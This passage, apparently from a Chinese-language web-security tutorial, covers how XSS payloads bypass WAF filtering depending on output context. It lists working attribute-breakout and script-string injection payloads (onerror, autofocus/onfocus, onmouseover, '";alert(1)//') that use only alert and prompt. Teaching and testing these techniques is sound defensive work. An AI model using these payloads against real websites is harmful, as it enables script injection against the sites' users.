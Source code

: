 支持的编码方式：HTML，八进制，十进制，十六进制和Unicode

属性：

```
data=

```

支持的编码：base64

### 基于上下文的过滤

WAF最大的问题，在于不知道输出的位置的上下文，导致根据具体环境可以绕过。

#### 输入在属性里

```
<input value="XSStest" type=text>

```

可控位置为XSStest，可以使用

```
"><img src=x onerror=prompt(0);>

```

如果`< >`被过滤的话可以换成

```
" autofocus onfocus=alert(1)//

```

同样还有很多其他的payload：

```
"onmouseover=" prompt(0)x="
"onfocusin=alert(1) autofocusx="
" onfocusout=alert(1) autofocus x="
"onblur=alert(1) autofocusa="

```

#### 输入在script标签中

例如：

```
<script>
Var x="Input";
</script>

```

可控位置在Input，可以闭合script标签插入代码，但是同样我们仅仅闭合双引号就可以执行js代码了

```
";alert(1)//

```
